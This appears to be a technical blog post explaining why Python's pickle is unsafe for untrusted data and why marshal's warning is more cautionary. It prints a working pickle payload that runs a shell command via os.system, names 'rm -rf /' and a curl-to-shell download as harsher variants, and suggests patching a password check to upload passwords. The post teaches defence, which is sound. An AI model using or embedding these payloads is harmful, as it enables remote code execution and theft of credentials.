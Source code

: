 ```yaml
---
layout: post
title: "Security of Python’s pickle and marshal modules"
tags: ['Python', 'Security']
---
```


Both the [`pickle`][pickle] and [`marshal`][marshal] modules come with a similar
big red warning:

> The pickle module is not secure against erroneous or maliciously constructed
> data. Never unpickle data received from an untrusted or unauthenticated
> source.

<!-- -->

> The marshal module is not intended to be secure against erroneous or
> maliciously constructed data. Never unmarshal data received from an untrusted
> or unauthenticated source.

Lets see why.

Marshal
-------

There are no **known** ways to exploit `marshal`. Executing code when using
`marshal.loads()` is not something I was able to do, and looking at the
`marhal.c` source code, I don't see an immediately obvious way.

So why is this warning here? [The BDFL explains][bfdl]:

> BTW the warning for marshal is legit -- the C code that unpacks marshal data
> has not been carefully analyzed against buffer overflows and so on. Remember
> the first time someone broke into a system through a malicious JPEG? The same
> could happen with marshal. Seriously.

I recommend you read the rest of the discussion; a bug is shown where
unmarshaling data causes Python to segfault; this has been fixed since Python
2.5 (this bug can, potentially, be abused to execute code). Other bugs *may*
still exist, though!

Furthermore, the `marshal` docs mention:

> This is not a general “persistence” module. [..]  The marshal module exists
> mainly to support reading and writing the “pseudo-compiled” code for Python
> modules of .pyc files.

So it's not even designed to persist data in a reliable way.

Pickle
------

You can easily execute arbitrary code with `pickle`. For example:

    >>> import pickle
    >>> pickle.loads(b"cos\nsystem\n(S'ls /'\ntR.")
    bin   data  download  home  lib64       mnt  proc  run   srv  tmp     usr      var
    boot  dev   etc       lib   lost+found  opt  root  sbin  sys  ubuntu  vagrant
    0

This is a harmless `ls /`, but can also be a less harmless `rm -rf /`, or a
`curl http://example.com/hack.sh | sh`.

You can see how this works by using the `pickletools` module:

    >>> import pickletools
    >>> pickletools.dis(b"cos\nsystem\n(S'ls /'\ntR.")
        0: c    GLOBAL     'os system'
       11: (    MARK
       12: S        STRING     'ls /'
       20: t        TUPLE      (MARK at 11)
       21: R    REDUCE
       22: .    STOP

`pickle.py` has some comments on what these opcodes mean:

    GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
    MARK           = b'('   # push special markobject on stack
    STRING         = b'S'   # push string; NL-terminated string argument
    TUPLE          = b't'   # build tuple from topmost stack items
    REDUCE         = b'R'   # apply callable to argtuple, both on stack
    STOP           = b'.'   # every pickle ends with STOP

Most of it is self-explanatory; with `GLOBAL` you can get any function, and
with `REDUCE` you call it.

Since Python is pretty dynamic, you can also use this to monkey-patch a program
in run-time. For example, you can change the `check_password` function with one
where you upload the password to a server.

So what *is* secure?
--------------------

XML, json, MessagePack, ini files, or perhaps something else. It depends on
which format is the best in your situation.

Has this code been "carefully analyzed against buffer overflows and so on"? Who
knows. Most code hasn't, and C makes it easy to do things wrong.[^1] Even Python
code may be vulnerable, as it [may call functions implemented in C that are
vulnerable](http://www.cvedetails.com/product/18230/Python-Python.html?vendor_id=10210).

There [have been problems with Python's JSON module][json-cve]. But at the same
time, it's used a lot in public-facing apps, so it's *probably* safe. It'll
certainly be safer than `marshal`, since this was only designed for `.pyc` files
and explicitly comes with a "not audited!" warning.

This is no guarantee. Remember that [YAML security hole a few years back that
caused every Ruby on Rails application in the world to be vulnerable to
arbitrary code execution][yaml-oops]. Oops! And this wasn't even a subtle buffer
overflow, but a much more obvious problem.

You should *not* use [yaml][yaml]'s `load()` method, as this has [the same
problems as Ruby's YAML][no-yaml]. Use `safe_load()` instead.

Conclusion
----------

The warning in the `pickle` module is very much warranted (it should be stated
stronger), while the warning above the `marshal` module is more of a "*this code
was not designed with security in mind*"-type of warning, but actually
exploiting it is not as easy and relies on the hypothetical existence on unknown
bugs. Still, you're probably better off using something else.

[^1]: There really ought to be a "carefully analyzed against buffer overflows and so on" seal of trust for open source projects. Yeah, you can shelf out the big bucks and get your code analyzed by Veracode and such, but this is not feasible for open source projects. There is *some* effort to do this after the OpenSSL Heartbleed clusterfuck a few years ago in the form of the [Core Infrastructure Initiative](https://en.wikipedia.org/wiki/Core_Infrastructure_Initiative), but its scope and budget are limited (but it's young, and may gain traction in a few years).

[marshal]: https://docs.python.org/3/library/marshal.html
[pickle]: https://docs.python.org/3/library/pickle.html
[yaml]: http://pyyaml.org/
[yaml-oops]: http://www.kalzumeus.com/2013/01/31/what-the-rails-security-issue-means-for-your-startup/
[no-yaml]: http://nedbatchelder.com/blog/201302/war_is_peace.html
[json-cve]: https://access.redhat.com/security/cve/CVE-2014-4616
[bfdl]: http://grokbase.com/t/python/python-ideas/083532w3t7/an-official-complaint-regarding-the-marshal-and-pickle-documentation#20080305gvdndfl4m3f2u6cmpxvrclfcou
